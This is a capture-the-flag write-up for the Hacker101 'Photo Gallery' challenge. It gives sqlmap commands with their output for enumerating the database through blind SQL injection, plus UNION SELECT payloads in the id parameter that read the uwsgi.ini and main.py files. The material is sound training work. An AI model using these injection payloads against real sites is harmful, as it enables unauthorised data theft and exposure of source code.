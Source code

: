 # Photo Gallery

## Description
This write up will show how to solve the CTF for "Photo Gallery"

**Difficulty:** Moderate

Hints are not being provided for multiple reasons:</br>
1. It is better to figure it out yourself and I don't want to give spoilers, especially if you don't need one
2. It is only possible to get a hint every once in a while, i.e. it is not possible to get all the hints one after another. This will take too much time to "wait" for all the hints

## Solution 1st flag
The pictures are retrieved with /fetch?id=1, 2, or 3, however, 3 doesn't show any picture data.</br>
As due to id=x, it means something is retrieved, probably from a database.</br>
Using SQLMap, it shows that id might be vulnerable with a boolean-based blind and/or a time-based blind SQLi.</br>

First enumerate the database: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --dbs`</br>
This will return the following:</br>
```
[23:11:59] [INFO] retrieved: 4
[23:12:07] [INFO] retrieved: information_schema
[23:15:22] [INFO] retrieved: level5
[23:16:43] [INFO] retrieved: mysql
[23:17:34] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```

level5 will be the database name<br>

As a second step, try to enumerate the tables: `sqlmap -u https://ca0d9cc72e5f2c20b69dd920042e6bdb.ctf.hacker101.com/fetch?id=1 --method=GET --dump -D level5`</br>
There are 2 tables:</br>
```
[23:34:11] [INFO] retrieved: 2
[23:34:22] [INFO] retrieved: albums
[23:35:19] [INFO] retrieved: photos
```

In the same step, it enumerate the columns in the tables, first photos:</br>
```
[23:36:19] [INFO] fetching columns for table 'photos' in database 'level5'
[23:36:19] [INFO] retrieved: 4
[23:36:29] [INFO] retrieved: id
[23:36:44] [INFO] retrieved: title
[23:37:25] [INFO] retrieved: filename
[23:38:31] [INFO] retrieved: parent
```

It will continue, with showing the contents of the table photos:</br>
```
[23:39:31] [INFO] fetching entries for table 'photos' in database 'level5'
[23:39:31] [INFO] fetching number of entries for table 'photos' in database 'level5'
[23:39:31] [INFO] retrieved: 3
[23:39:39] [INFO] retrieved: files/adorable.jpg
[23:42:43] [INFO] retrieved: 1
[23:42:57] [INFO] retrieved: 1
[23:43:05] [INFO] retrieved: Utterly adorable
[23:46:02] [INFO] retrieved: files/purrfect.jpg
[23:49:39] [INFO] retrieved: 2
[23:49:55] [INFO] retrieved: 1
[23:50:04] [INFO] retrieved: Purrfect
[23:51:31] [INFO] retrieved: <<here will be the flag, with the flag tags>>
[00:04:22] [INFO] retrieved: 3
[00:04:37] [INFO] retrieved: 1
[00:04:50] [INFO] retrieved: Invisible
```

And part of that information is that it contains the flag!

## Solution 2nd flag
The third hint, states to look at a config file for the uwsgi-nginx-flask-docker image.</br>
This will be the uwsgi.ini file, hence running the following endpoint in Burp: `/fetch?id=0+UNION+SELECT+'uwsgi.ini`.</br>

This will show the following:
```
[uwsgi]
module = main.py
callable = app
```

Main.py is the main application, hence we can run the same endpoint, but with main.py: `/fetch?id=0+UNION+SELECT+'main.py`.</br>
At the bottom it will show the flag.
